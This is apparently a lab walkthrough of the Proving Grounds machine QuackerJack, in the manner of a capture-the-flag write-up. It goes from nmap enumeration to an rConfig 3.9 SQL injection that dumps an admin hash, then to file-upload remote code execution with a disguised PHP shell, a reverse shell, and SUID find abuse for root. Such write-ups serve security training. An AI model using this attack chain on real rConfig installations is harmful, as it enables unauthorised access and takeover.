 ## First Enumerating with nmap

```shell
# Nmap 7.94SVN scan initiated Fri Mar  8 15:34:35 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 21,22,80,111,139,445,3306,8081 -Pn 192.168.185.57
Nmap scan report for 192.168.185.57
Host is up (0.20s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.205
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp   open  ssh         OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 a2:ec:75:8d:86:9b:a3:0b:d3:b6:2f:64:04:f9:fd:25 (RSA)
|   256 b6:d2:fd:bb:08:9a:35:02:7b:33:e3:72:5d:dc:64:82 (ECDSA)
|_  256 08:95:d6:60:52:17:3d:03:e4:7d:90:fd:b2:ed:44:86 (ED25519)
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Apache HTTP Server Test Page powered by CentOS
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp  open  netbios-ssn Samba smbd 4.10.4 (workgroup: SAMBA)
3306/tcp open  mysql       MariaDB (unauthorized)
8081/tcp open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
|_http-title: 400 Bad Request
Service Info: Host: QUACKERJACK; OS: Unix

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-03-08T14:35:41
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h40m52s, deviation: 2h53m15s, median: 50s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.10.4)
|   Computer name: quackerjack
|   NetBIOS computer name: QUACKERJACK\x00
|   Domain name: \x00
|   FQDN: quackerjack
|_  System time: 2024-03-08T09:35:43-05:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar  8 15:35:30 2024 -- 1 IP address (1 host up) scanned in 54.94 seconds

```


## Enumerating web

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0533edb6-ef6b-422d-ac5f-7c6b52afcf36)

a web server running on port `8081`, opening it on a browser, we got redirected to a login page. And we can see the web app is running `rconfig` service.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/cf554c2d-771c-42ce-bb0e-e297665eeafc)

did some research and found out exploits for the `rconfig` service. [exploit](https://github.com/v1k1ngfr/exploits-rconfig/)

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/QuakerJack]
└─$ python sqli.py https://192.168.185.57:8081
rconfig 3.9 - SQL Injection PoC
[+] Triggering the payloads on https://192.168.185.57:8081/commands.inc.php
[+] Extracting the current DB name :
rconfig
[+] Extracting 10 first users :
admin:1:dc40b85276a1f4d7cb35f154236aa1b2
Maybe no more information ?
Maybe no more information ?
Maybe no more information ?
Maybe no more information ?
[+] Extracting 10 first devices :
Maybe no more information ?
Maybe no more information ?
[*Snip*]
Maybe no more information ?
Done
```
ran the sqli exploit, we are able to extract the admin password md5 hash 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/50ffafc2-ba47-4eec-a994-0d9085378ec5)

cracked the password hash `abgrtyu`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/6e8dc008-869e-4d1d-9281-fa857cdbad51)

logged in as `admin` success using the password cracked.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1c8a9719-c1b9-458d-9183-6f4df3af3ead)

further research, found a file upload POC to RCE.. [POC](https://gist.github.com/farid007/9f6ad063645d5b1550298c8b9ae953ff)

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/cbf6f1e7-cdb5-488d-9c4a-687c2ed18591)

navigate to the vendors.php dir and upload a shell.php, intercept request with burp.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/2da23a25-75c0-4ec7-ab1d-976806b99c29)

click save and conver the contenttype for `x-php` to `images/gif`

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/00cb5bc1-4a39-48ff-99f1-f5a7497c9da4)

Navigate to the shell path and we can trigger RCE. Let's get a reverse shell 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/08630b1c-4454-420d-a057-bb939aebfbbb)

we got a reverse shell.


## Privilege Escalation 

```shell
bash-4.2$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/find
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/su
/usr/bin/sudo
/usr/bin/mount
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/fusermount
/usr/sbin/unix_chkpwd
/usr/sbin/pam_timestamp_check
/usr/sbin/usernetctl
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
bash-4.2$ 
```
checking for suid, we can see an suid `/usr/bin/find`. let's abuse to get root shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e5038d22-f609-4061-97c9-863a6f513e89)

abusing it we got a root shell. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/49ea520d-2dde-41ea-9de9-8a17d2ab1792)

And we are through... 🙂
